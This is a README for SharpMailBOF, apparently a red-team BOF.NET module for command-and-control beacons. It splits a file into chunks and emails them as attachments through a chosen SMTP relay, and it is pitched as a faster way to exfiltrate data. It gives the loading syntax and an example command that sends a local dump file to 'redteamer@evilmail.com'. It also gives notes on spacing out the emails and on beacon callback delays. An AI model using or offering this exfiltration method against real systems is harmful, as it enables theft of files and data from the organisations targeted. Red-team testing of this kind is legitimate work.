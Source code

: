 # SharpMailBOF

SharpMailBOF is a quick and dirty [BOF.NET](https://github.com/CCob/BOF.NET) (Thanks CCob!)  module that can be used to break a file into smaller chunks and email them as attachments to a specified recipient using an SMTP relay of your choosing. This can be used as an alternate data exfiltration method to speed up reciving large files when you are operating with a low/slow sleep setting.

## Syntax
```
bofnet_init
bofnet_load [Path_to_DLL]
bofnet_execute BOFNET.Bofs.SharMailBof [SMTP_SERVER] [PORT] [RECIPIENT] [SENDER] [SUBJECT] [BODY] [PATH]
```
## Example
```
bofnet_execute BOFNET.Bofs.SHarpMailBof mail.example.com 25 redteamer@evilmail.com noreply@example.com "Test" "This is only a test." "C:\Path\dump.txt"
```

## Notes

**DO NOT PANIC** if your beacon does not call back. It will not call back until it has finished sending a series of emails + the time your normal sleep time takes. So if your sleep time is set to 30 minutes and you send a 30MB file, it could still take some time but, it will be much faster than trying to use the inbuilt download feature.

This BOF.NET module will delay checking of your beacon. The default delay between messages is 10 minutes and the default file size is 5MB. You can adjust this to fit your needs. At some point I may add the option to specify the delay and attachment sizes.
